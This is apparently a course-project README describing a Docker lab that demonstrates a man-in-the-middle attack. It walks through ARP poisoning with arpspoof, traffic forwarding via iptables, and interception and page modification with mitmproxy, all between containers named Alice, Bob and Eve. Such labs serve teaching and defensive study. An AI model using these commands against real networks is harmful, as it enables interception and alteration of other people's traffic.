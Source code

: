 # 🚀 Man-in-the-Middle (MitM) Attack Practice using Docker

A simple and lightweight demo showcasing a **Man-in-the-Middle (MitM)** attack via **ARP poisoning** using Docker containers. This demonstration is designed for quick setup, requiring only Docker and `docker-compose`. Everything else is handled by the container configurations.

🔒 **Purpose:**  
This practical example have been created to demonestrate _Man-in-the-Middle (MitM) attacke using ARP poisoning_ as part of **ICT Risk Assessment** Course examination.

---

## 🛠 Tools Used
- **Docker**
- **docker-compose**
- **mitmproxy**
- **arpspoof**

---

## 📦 Environment Setup
The demo involves three Docker containers connected through a Docker bridge network named `mitm`:

1. **Bob**: Hosts an HTTP server serving files from the `bob_files` directory.  
2. **Alice**: Runs Firefox in a container. Access it from the host at [http://localhost:5800](http://localhost:5800).  
3. **Eve**: The attacker container, used via bash. It has the `eve_files` folder mounted as `/olicyber` inside the container. 

---

## 🔧 How to Run

### 1. Set Up the Environment
1. Install **Docker** and **docker-compose**.
2. Start the containers:
   ```bash
   docker-compose up -d

### 2. Verify Initial Setup

- Open **Alice's Firefox** at [http://localhost:5800](http://localhost:5800) and visit [http://bob/](http://bob/).  
  You should see the website served by Bob's HTTP server.  

- Verify Bob's MAC address from Alice's shell:
   ```bash
   docker exec -it alice /bin/sh
   ip neighbor
### 3. Discover IP Addresses

- On Eve's container, open two bash instances:
   ```bash
   docker exec -it eve /bin/bash

- Run the dig command to get Alice's and Bob's IP addresses:
    ```bash
   dig alice
   dig bob

### 4. Perform ARP Spoofing

In the two bash instances on Eve's container, run the following commands:
- **Instance 1**:
   ```bash
   arpspoof -t <alice_ip> <bob_ip>
- **Instance 2**:
   ```bash
   arpspoof -t <bob_ip> <alice_ip>
- Check on Alice's shell that Bob's IP now maps to Eve's MAC address:
  ```bash
   ip neighbor
  
## 🔥 Simulating the Attack

### Step 1: Forward Traffic Through Eve
- Run the `add_iptables_rule.sh` script on Eve to forward traffic:
   ```bash
   cd olicyber
   chmod +x add_iptables_rule.sh
   ./add_iptables_rule.sh
   

- Verify that Alice's browser now shows an error when reloading the page. This occurs because packets are being intercepted by Eve but dropped since the proxy is inactive.

### Step 2: Activate the Proxy in Passive Mode

- Start the proxy in passive mode:
   ```bash
   mitmproxy -m transparent

- Reload the page in Alice's browser. The website will load normally, but Eve's mitmproxy instance will display the intercepted requests.

### Step 3: Modify the Webpage

- Restart the proxy with a custom script to alter the website content:
  
  ```bash
   mitmproxy -m transparent -s /olicyber/proxy.py
  
- Reload the browser page, and you'll see the altered website content.

## 🛑 Shutting Down

- Remove the iptables rule:
   ```bash
   /olicyber/del_iptables_rule.sh
   
- Stop the ARP spoofing processes in Eve's bash instances.
